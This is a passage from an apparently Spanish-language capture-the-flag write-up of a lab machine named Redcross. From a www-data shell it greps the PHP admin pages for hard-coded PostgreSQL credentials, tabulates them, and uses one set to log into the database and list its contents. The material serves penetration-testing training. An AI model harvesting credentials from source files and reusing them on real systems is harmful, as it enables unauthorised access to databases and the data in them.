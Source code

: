 ```php
	$result = pg_execute($dbconn, "q1", array($username, $phash));
	echo "Provide this credentials to the user:<br><br>";
	echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
}
if($action==='del'){
	header('refresh:1;url=/?page=users');
	$uid=$_POST['uid'];
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$result = pg_prepare($dbconn, "q1", "delete from passwd_table where uid = $1");
	$result = pg_execute($dbconn, "q1", array($uid));
	echo "User account deleted";
}
?>
```

Resumiendo con grep:

```
www-data@redcross:/var/www/html/admin/pages$ cat * | grep pg_connect
cat * | grep pg_connect
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
```

Convirtiendo a tabla:

| # | Host      | dbname   | user       | password      |
|---|-----------|----------|------------|---------------|
| 1 | 127.0.0.1 | redcross | www        | aXwrtUO9_aa&  |
| 2 | 127.0.0.1 | unix     | unixusrmgr | dheu%7wjx8B&  |
| 3 | 127.0.0.1 | unix     | unixnss    | fios@ew023xnw |

# PSQL

Validemos que tenemos dentro de esta base de datos, comenzando por la db con el nombre de la maquina:

```
www-data@redcross:/var/www/html/admin/pages$ psql -h 127.0.0.1 -d redcross -U www -W
<dmin/pages$ psql -h 127.0.0.1 -d redcross -U www -W
Password for user www: aXwrtUO9_aa&

\l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 redcross  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =Tc/postgres         +
           |          |          |             |             | postgres=CTc/postgres+
           |          |          |             |             | www=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 unix      | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
(5 rows)
```
